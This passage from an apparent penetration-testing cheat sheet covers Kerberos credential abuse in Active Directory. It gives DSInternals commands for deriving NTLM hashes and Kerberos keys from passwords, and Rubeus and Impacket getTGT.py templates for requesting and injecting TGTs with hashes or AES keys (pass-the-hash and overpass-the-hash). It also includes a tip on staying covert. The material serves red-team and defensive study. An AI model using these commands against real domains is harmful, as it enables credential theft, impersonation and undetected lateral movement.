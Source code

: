 The `DSInternals` PowerShell `ConvertTo-NTHash` and `ConvertTo-KerberosKey`
cmdlets can be used to convert a plaintext password to, respectively, `RC4` and
`AES128` / `AES256` keys.

```bash
$CleartextPassword = ConvertTo-SecureString -String '<PASSWORD>' -AsPlainText -Force

# Returns the NTLM hash / RC4 key from a given password.
ConvertTo-NTHash -Password $CleartextPassword

# Returns the Kerberos keys (AES256, AES128, DES) and from a given password.
# The Kerberos keys are derived from a salt based on the Kerberos realm and account name.
# For user account: <SALT> = uppercase Kerberos realm + case sensitive SamAccountName. Example: LAB.ADAdministrator.
# For machine account: <SALT> =  Kerberos realm + host keyword + lowercase SamAccountName with out $ + lowercase Kerberos realm. Example: LAB.ADhostdc1.lab.ad
ConvertTo-KerberosKey -Password $CleartextPassword -Salt '<SALT>'
```

Additionally, `Rubeus`'s `asktgt` module supports `TGT` requests using a
password, and the encryption type can then be specified using the `/enctype`
option.

###### TGT Kerberos tickets requests

*Knowing any user's Kerberos secret.*

The `Rubeus`'s `asktgt` module or the `Impacket`'s `getTGT.py`
Python script can be used to request `TGTs` using an user's password, `NTLM`
hash (equivalent to the `Kerberos` `RC4` key), or `Kerberos` secrets.

If `RC4_HMAC-MD5` is disabled at a domain level, requesting `Kerberos` `TGT`
will require either the account password or its `AES128` or `AES256` key.
Trying to request a `TGT` using `RC4` key in such environment will result in
a `KDC_ERR_ETYPE_NOTSUPP` error.

```bash
# ptt: Directly injects the received TGT in the current logon session. The current logon session TGT will be overwritten.
# In any case, the received TGT, encoded in base64, will be printed (KRB-CRED format).
Rubeus.exe asktgt /user:<USERNAME> /password:<PASSWORD> [/enctype:<rc4 | aes128 | aes256>] /ptt
Rubeus.exe asktgt /user:<USERNAME> [/rc4:<NTLM_HASH> | /aes128:<AES_128BITS_KEY> | /aes256:<AES_256BITS_KEY>] /ptt
Rubeus.exe asktgt /dc:<DC_IP | DC_HOSTNAME> /domain:<DOMAIN> /user:<USERNAME> [/password:<PASSWORD> | /rc4:<NTLM_HASH> | /aes128:<AES_128BITS_KEY> | /aes256:<AES_256BITS_KEY>] /ptt

# The received TGT will be exported to a file in the credential cache format.
python getTGT.py [-dc-ip <DC_IP>] <DOMAIN>/<USERNAME>:[<PASSWORD>]
python getTGT.py [-dc-ip <DC_IP>] -hashes ":<NTLM>" <DOMAIN>/<USERNAME>
# Recommended if possible in a covert scenario, as the AES keys are used by default by Microsoft.
python getTGT.py [-dc-ip <DC_IP>] -aesKey <AES_128BITS_KEY | AES_256BITS_KEY> <DOMAIN>/<USERNAME>
```

*Using the current user's security context.*

A `TGT` can be retrieved for the current user using its security context with
out the need of knowing the user's credentials.
